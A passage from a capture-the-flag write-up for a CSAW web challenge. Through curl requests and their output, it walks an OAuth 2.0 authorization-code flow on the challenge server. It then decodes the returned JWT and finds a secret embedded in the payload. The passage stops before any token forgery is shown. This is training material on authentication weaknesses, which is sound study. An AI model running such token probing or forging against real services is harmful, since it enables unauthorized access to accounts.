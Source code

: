 If we try to do a `POST` request to the two URLs given in the comment:

    $ curl -X POST http://web.chal.csaw.io:9000/oauth2/token
    incorrect grant_type
    $ curl -X POST http://web.chal.csaw.io:9000/oauth2/authorize
    response_type not code

OAuth 2.0 is a very widespread mechanism for logins and registrations. It is quite easy to find articles referencing how it works, and both `grant_type` and `response_type`. [Here](https://alexbilbie.com/guide-to-oauth-2-grants/) is a good one.

So, our first step is to make a POST request to the authorisation server, which is represented by the `/oauth2/authorize` URL in our case:

    $ curl -X POST -d "response_type=code" \
      -d "client_id=admin" \
      --data-urlencode "redirect_uri=http://web.chal.csaw.io:9000/protected" \
      -d "state=admin" \
      -d "scope=admin" \
      "http://web.chal.csaw.io:9000/oauth2/authorize"
    Redirecting to <a href="http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3Mjk3OTc0LCJleHAiOjE1MzcyOTg1NzR9.gwpoCKI2ZyGAgZlQ3J50j7H-pXWH3HaLLb5sDeblr8I&amp;state=admin">http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3Mjk3OTc0LCJleHAiOjE1MzcyOTg1NzR9.gwpoCKI2ZyGAgZlQ3J50j7H-pXWH3HaLLb5sDeblr8I&amp;state=admin</a>

The `code` URL in the above gives us a token which we then submit to the `/oauth2/token` URL:

    $ curl -X POST -d "grant_type=authorization_code" \
      -d "client_id=admin" \
      -d "client_secret=admin" \
      --data-urlencode "redirect_uri=http://web.chal.csaw.io:9000/protected" \
      -d "code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3Mjk3OTc0LCJleHAiOjE1MzcyOTg1NzR9.gwpoCKI2ZyGAgZlQ3J50j7H-pXWH3HaLLb5sDeblr8I" \
      "http://web.chal.csaw.io:9000/oauth2/token"
    {"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzI5ODAxOCwiZXhwIjoxNTM3Mjk4NjE4fQ.4HWHo1doTgWejr-jTTdeYoFMKpuiLvT9-I3jSushkNk"}

And with this token we can try to go to `/protected`!

    $ curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzI5ODAxOCwiZXhwIjoxNTM3Mjk4NjE4fQ.4HWHo1doTgWejr-jTTdeYoFMKpuiLvT9-I3jSushkNk" \
      "http://web.chal.csaw.io:9000/protected"
    You must be admin to access this resource

But of course, that would have been too simple. Even though we put `admin` in basically all the parameters, we are not admins to the server. Let's have a look at the token though. It seems to be a couple of Base64-encoded strings:

    $ printf "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64 -D
    {"alg":"HS256","typ":"JWT"}
    $ printf "eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzI5ODAxOCwiZXhwIjoxNTM3Mjk4NjE4fQ==" | base64 -D
    {"type":"user","secret":"ufoundme!","iat":1537298018,"exp":1537298618}
    $ printf "4HWHo1doTgWejr-jTTdeYoFMKpuiLvT9-I3jSushkNk=" | base64 -D | xxd
    0000000: e075 87a3 5768 4e05 9e8e bfa3 4d37 5e62  .u..WhN.....M7^b
    0000010: 814c 2a9b a22e f4fd f88d e34a eb21 90d9  .L*........J.!..

